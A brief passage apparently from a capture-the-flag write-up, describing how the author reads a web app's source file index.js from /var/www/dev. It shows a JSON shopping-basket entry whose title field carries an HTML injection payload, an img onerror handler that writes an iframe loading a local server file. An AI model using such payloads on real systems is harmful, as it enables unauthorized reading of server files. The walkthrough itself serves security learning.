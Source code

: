 ![image-20230612124240314](../img/image-20230612124240314.png)

#### Source Analysis

I’ll fetch the source using the same technique. I know it’s running from
`/var/www/dev`. The main file is likely `index.js`, so I’ll start there:

    
    
    {"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<img src=\"x\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js width=100% height=100%></iframe>')\" />","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
    
